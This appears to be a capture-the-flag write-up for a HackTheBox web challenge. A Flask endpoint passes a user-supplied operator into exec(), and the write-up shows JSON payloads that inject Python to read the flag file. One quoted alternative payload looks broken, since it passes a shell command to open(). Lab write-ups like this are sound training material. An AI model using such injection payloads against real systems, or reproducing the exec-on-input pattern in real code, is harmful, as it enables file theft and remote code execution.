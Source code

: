 # Evaluation Deck
web | easy | 200pts

>A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## First Impressions

The website contains a set of cards, and depending on the cards selected, the ghost's health changes.

![](images/wed-website.png)

Going into the source code of the website through Inspect Element showed me the values for each of the cards. With this I defeated the ghost, but nothing happened.

![](images/wed-victory.png)


Knowing there's more to this challenge, the next step was to into the challenge files. It is a Python application using the [Blueprint feature](https://realpython.com/flask-blueprint/)

```txt
web_evaluation_deck
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   ├── card1.png
│   │   │   │   ├── card10.png
│   │   │   │   ├── card11.png
│   │   │   │   ├── card12.png
│   │   │   │   ├── card13.png
│   │   │   │   ├── card14.png
│   │   │   │   ├── card15.png
│   │   │   │   ├── card16.png
│   │   │   │   ├── card17.png
│   │   │   │   ├── card18.png
│   │   │   │   ├── card19.png
│   │   │   │   ├── card2.png
│   │   │   │   ├── card20.png
│   │   │   │   ├── card3.png
│   │   │   │   ├── card4.png
│   │   │   │   ├── card5.png
│   │   │   │   ├── card6.png
│   │   │   │   ├── card7.png
│   │   │   │   ├── card8.png
│   │   │   │   ├── card9.png
│   │   │   │   ├── card_back.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```

After looking through the source code, a vulnerability was foudn in  `application/blueprints/routes.py`.

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

Each time a move is played, a POST request is sent to `get_health()` which calculates the health of the ghost. This can be seen when intercepting the request using Burp.

![](images/wed-burp.png)

The health is calculated using three parameters - `current_health`, `attack_power` and `operator`, the last two values coming from the card you choose.

```python
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
return response(result.get('result'))
```

The three values are entered into a compile function, which takes python code and evaluates it. This code is then executed and the result is displayed on the website. 

Since we can intercept the request and change the values, this opens the possibility to RCE or remote code execution. However, out of the three parameters, only `operator` is vulnerable, as `current_health` and `attack_power` can only be integer values for the compile function to run successfully.

## Solution

The payload to be created needs to work within the existing command, free of any syntax errors, to execute successfully. I realized I overthought the payload after seeing much simpler solutions, but I'll describe it here anyways.

Since the result of the payload is an integer, the idea was to get the ASCII bytes of the flag. After trial and error, this was the final payload.

```json
{
    "current_health": 0,
    "attack_power": 0,
    "operator": "+ int(''.join([str(ord(i)) for i in open('../flag.txt').read()])) + "
}
```
This is what the payload would look like when being executed

```python
result = 0 + int(''.join([str(ord(i)) for i in open('../flag.txt').read()])) + 0
```

Here is the breakdown;
- None of the fields could be empty, so I set both current_health and attack_power to 0.
- The operator field starts off with the plus sign, so that the statement executes successfully.
- To get the individual flag characters, we first need to open the file and iterate through each character. This is done using a list comprehension, and each character is converted to its ASCII number using `ord()`. 
- To append the values instead of adding them in the join function (string 'ab' displays as 6566 instead of 65+66 or 131), I converted the characters to strings using `str()`.
- All the values are then added to one string using `join()`. 
- The final conversion is the integer conversion, as the other values are also integers.

To show you how complicated the above payload is, here is another payload I saw from another solution. :/

```json
{
    "current_health": 0,
    "attack_power": 0,
    "operator": "; result = open('cat ../flag.txt').read();"
}
```

Anywho, executing the payload through Burp Repeater gives us the ASCII values of the flag as the output, converting it to string values gives us the flag.

![](images/wed-ascii.png)

```txt
$ python3 -c 'print("".join([chr(int(i)) for i in "72 84 66 123 99 48 100 51 95 49 110 106 51 99 116 49 48 110 115 95 52 114 51 95 71 114 51 97 116 33 33 125".split(" ")]))'
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```

Flag: `HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}`